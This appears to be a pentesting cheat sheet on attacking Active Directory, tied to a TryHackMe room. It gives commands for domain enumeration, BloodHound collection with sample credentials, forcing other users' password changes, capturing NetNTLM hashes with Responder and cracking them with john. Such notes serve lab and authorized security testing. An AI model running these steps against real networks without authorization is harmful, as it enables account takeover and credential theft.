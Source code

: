 ```yaml
---
title: Active Directory Pentesting
description: Active Directory (AD) is a directory service developed by Microsoft for Windows domain networks.
tags:
    - Active Directory
    - Privilege Escalation
    - Windows
refs:
    - https://tryhackme.com/room/adenumeration
date: 2024-03-26
draft: false
---
```


## Enumeration

### Domain Controllers Discovery

```sh
dig @<target-ip> example.local ANY
gobuster dns -d example.local -w subdomains.txt -t 25
```

<br />

## Enumeration with BloodHound

### 1. Run BloodHound

We use [BloodHound Community Edition](https://github.com/SpecterOps/BloodHound).  
The following command starts the Docker Compose of the BloodHound.

```bash
curl -L https://ghst.ly/getbhce | docker compose -f - up
```

After that, we can use the web UI by accessing to `localhost:8080` in web browser.  
Login with the username `admin` and the password which is displayed the log when executing the above command.  

To specify arbitrary ip and port, set the environment variables on our attack machine:

```sh
export BLOODHOUND_HOST=10.0.0.1
export BLOODHOUND_PORT=8090
```

### 2. Collect Data with BloodHound.py

Here we use [BloodHound.py](https://github.com/dirkjanm/BloodHound.py).  
Install it as follow:

```sh
python3 -m venv venv
source venv/bin/activate
pip3 install bloodhound
bloodhound-python -h
```

Then

```bash
# -d: Domain
# -u: Username
# -p: Password
# -dc: Domain Controller
# -c all: Collect all data
# -ns: Alternate the nameserver
bloodhound-python -d example.local -u 'TABATHA_BRITT' -p 'marlboro(1985)' -dc dc.example.local -c all -ns ns.example.local

# If we cannot resolve the domain, try dnschef (https://github.com/iphelix/dnschef) to create a fake DNS by proxy.
sudo python3 dnschef.py --fakeip <target-ip> --nameserver <target-ip>
```

### 3. Upload Collected Data

After running, the result files (`*.json`) generated in the current directory. Upload all these JSON files to the BloodHound in web browser.  

We can explore the relationship in the Active Directory.

<br />

## Investigation

```powershell
# List all users
net user /domain
net user <username> /domain
Get-ADUser -Filter *
Get-ADUser -Identity <username> -Server dc.example.com -Properties *
Get-ADUser -Filter 'Name -like "*michael"' -Server dc.example.com | Format-Table Name,SamAccountName -A

# List all groups
net group /domain
net group "<group>" /domain
PS> Get-ADGroup -Identity <group> -Server dc.example.com -Properties *
PS> Get-ADGroupMember -Identity <group> -Server dc.example.com

# List the password policy
net accounts /domain

# List AD objects
$ChangeDate = New-Object DateTime(2022, 02, 28, 12, 00, 00)
Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server dc.example.com

# Retrieve information about the given domain.
Get-ADDomain -Server dc.example.com

# Change the password of AD user
Set-ADAccountPassword -Identity <username> -Server dc.example.com  -OldPassword (ConvertTo-SecureString -AsPlaintext "oldpass" -force) -NewPassword (ConvertTo-SecureString -AsPlaintext "newpass" -force)

# SYSVOL - A shared folder storing the Group Policy Objects (GPOs).
dir \\dc.example.com\SYSVOL\
```

<br />

## Force Change Password Attack

If we found some username/password, and other usernames, we might be able to change other user passwords. The user needs to have **GenericAll** permission to change passwords of other users.

```bash
# -U: User credential who has the permission to change another user password
# -I: Target IP
# -S: Target server name
net rpc password "TargetUserName" "myPassw0rd@123" -U "UserName"%"Password" -I "10.0.0.1" -S "EXAMPLE.LOCAL"
```

<br />

## Microsoft Management Console (mmc)

To setup AD, follow this instructions:

1. Right-click on the Windows icon.
2. Click **"Run"** and enter **"mmc"** then click **"OK"**.
3. In the MMC, click **"File → Add or Remove Snap-ins"**.
4. Add all three **"Active Directory…"** snap-ins.
5. Right-click on the **"Active Directory…"** in the left pane and select **"Change Forest"**.
6. Enter the domain  as the Root domain and click OK.
7. Click on **"View → Advanced Features"**.

<br />

## Naming Convention

If we found usernames list in Active Directory, we can modify usernames with naming convention.  
For instance,

```txt
john smith   -> jsmith, j.smith
michael pole -> mpole, m.pole
```

<br />

## SSH Login with AD Credentials

```sh
ssh dc.example.com\\<ad_username>@sub.dc.example.com
```

<br />

## Inject Credentials into Memory

```powershell
# /netonly: All network communications will use these injected credentials for authentication.
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

<br />

## DNS Configuration

```powershell
# PowerShell
$dnsip = "<DC_IP>"
$index = Get-NetAdapter -Name 'Ethernet' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip
```

Now check if the configuration is set correctly.

```powershell
nslookup dc.example.com
```

<br />

## Basic Knowledge

### User Management

- **Delegation**

    In Active Directory, the administrator delegate another user to manage users over an Organizational Unit (OU),  without the admin privileges.

    1. Setup

        1. Open "Active Directory Users and Computers".
        2. Right-click on the target OU, and click “Deligate Control…”. Then the new window will open.
        3. In the window, input username who you want to delegate the privilege that manage users.
        4. Select tasks to which the delegated user should manage.
        5. Click OK.

    2. Manage Users

        1. Logon as the delegated user.
        2. For instance, if you want to reset the john's password, execute the following command in PowerShell. Then input new password in prompt.

            ```powershell
            Set-ADAccountPassword john -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
            ```
        
        3. The first time John logs on after that, we want John to change his arbitrary password not the password you entered. So that to, execute the following command.

            ```powershell
            Set-ADUser -ChangePasswordAtLogon $true -Identity john -Verbose
            ```

        4. Now when John logs on he will be prompt to change a new password.


<br />

## Intercept NetNTLM Authentication

Start Responder to listen for any LLMNR, NBT-NS, WPAD requests.

```sh
sudo responder -I <interface-like-eth0>
```

Leave Responder running until receiving some requests.  
If you get NTLM hash, crack it in local machine.

```sh
echo -n '<copied-NTLM-hash>' > hash.txt
john --format=netntlmv2 --wordlist=wordlist.txt hash.txt
```

